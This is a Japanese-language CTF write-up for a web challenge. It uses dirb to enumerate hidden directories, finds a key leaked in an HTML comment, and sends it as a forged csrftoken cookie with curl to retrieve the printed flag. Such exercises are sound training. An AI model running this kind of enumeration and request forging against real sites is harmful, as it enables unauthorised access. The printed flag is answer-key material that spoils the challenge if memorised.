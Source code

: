 # Break the logic:Web:652pts
Listen to the old man!  
[Click here](https://ch1.sbug.se/)  

# Solution
サイトにアクセスすると`Aren't you ina wrong place!?`と表示される。  
Are you lost?  
[site.png](site/site.png)  
ソースにも不審な点はないのでdirbしてみる。  
```bash
$ dirb https://ch1.sbug.se/
~~~
---- Scanning URL: https://ch1.sbug.se/ ----
+ https://ch1.sbug.se/admin (CODE:301|SIZE:0)
+ https://ch1.sbug.se/submit (CODE:200|SIZE:737)
~~~
```
`admin`があり、ログインページのようだ。  
[admin.png](site/admin.png)  
`/submit`もあるようなので、見ると空白のページだ。  
ソースを見る。  
```bash
$ curl https://ch1.sbug.se/submit
<html>
<head>
<title>half way in!</title>
<script src="/cdn-cgi/apps/head/xnSNotsdYPTd4Qn38KNoSYKvO4k.js"></script><script async src='/cdn-cgi/challenge-platform/h/b/scripts/invisible.js'></script></head>
<body>
<!--we heard that last commander used this key to forge a request:4JqorR6IXT4swdwN0qTPTwxtinom3AbZ5wNlEQjrPzEVJUUmDhVPFX21P3Xsnm04--><br>
</div>
~~~
```
コメントに謎の文字列が埋め込まれている。  
Cookieを確認すると`ASP.NET_SessionId`や`csrftoken`があった。  
`/admin`や`/`でセットされているようだ。  
これかどうかは怪しが先ほどの値をセットし、いろいろとアクセスする。  
```bash
$ curl https://ch1.sbug.se/submit -H "cookie: csrftoken=4JqorR6IXT4swdwN0qTPTwxtinom3AbZ5wNlEQjrPzEVJUUmDhVPFX21P3Xsnm04"
<html>
<head>
<title>half way in!</title>
<script src="/cdn-cgi/apps/head/xnSNotsdYPTd4Qn38KNoSYKvO4k.js"></script><script async src='/cdn-cgi/challenge-platform/h/b/scripts/invisible.js'></script></head>
<body>
<!--keep this one private<br>-->
<!--SBCTF{L0g!cs_M@n_I_H@t3_7h3m}-->
~~~
```
`csrftoken`で`/submit`が正解だった。  

## SBCTF{L0g!cs_M@n_I_H@t3_7h3m}